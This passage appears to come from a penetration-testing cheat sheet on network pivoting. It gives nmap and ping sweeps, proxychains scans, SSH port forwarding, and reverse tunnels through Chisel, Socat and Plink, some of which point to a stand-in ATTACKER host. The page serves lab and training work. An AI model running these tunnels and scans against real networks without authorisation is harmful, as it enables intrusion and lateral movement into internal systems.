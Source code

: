 *   **Linux**

    ```bash
    nmap -sn 10.10.0.0/24
    for i in $(seq 1 254); do ping -c1 10.10.0.$i | grep "bytes from"; done
    ```
*   **Windows**

    ```powershell
    for ($i=1; $i -le 254; $i++) { Test-Connection -Count 1 -Quiet 10.10.0.$i }
    ```

#### 🔹 Service Identification (proxychains or local)

```bash
nmap -sT -Pn -p 21,22,80,135,139,445,3389,5985,1433,3306 10.10.0.0/24
```

***

### III. 🧱 Port Forwarding Basics

#### 🔹 SSH Local Forward

> Redirect a **remote internal port** to your local machine.

```bash
ssh -L 8080:10.10.0.5:80 user@pivot
# Access via http://127.0.0.1:8080
```

#### 🔹 SSH Remote Forward

> Expose your local listener to the remote internal network.

```bash
ssh -R 4444:127.0.0.1:4444 user@pivot
# Connect from pivot: nc 127.0.0.1 4444
```

#### 🔹 Dynamic SOCKS Proxy (via SSH)

```bash
ssh -D 9050 user@pivot
proxychains nmap -sT -Pn -p 445,3389 10.10.0.0/24
```

* Configure `/etc/proxychains.conf` → `socks5 127.0.0.1 9050`.

***

### IV. 🧠 Advanced Pivoting Tools

| Tool                         | Role                                  | Command Example                                       |
| ---------------------------- | ------------------------------------- | ----------------------------------------------------- |
| **Chisel**                   | TCP tunnel / SOCKS proxy              | `chisel server -p 8000 --reverse`                     |
|                              |                                       | `chisel client ATTACKER:8000 R:1080:socks`            |
| **Socat**                    | Simple port forwarder                 | `socat TCP-LISTEN:4444,fork TCP:10.10.0.5:3389`       |
| **Plink**                    | Windows SSH tunnel                    | `plink.exe -ssh user@ATTACKER -R 4444:127.0.0.1:3389` |
| **FRP (Fast Reverse Proxy)** | Full-feature reverse tunnel framework | Use for AD labs (multiple services)                   |
| **SSHuttle**                 | Transparent network-level proxy       | `sshuttle -r user@pivot 10.10.0.0/24`                 |
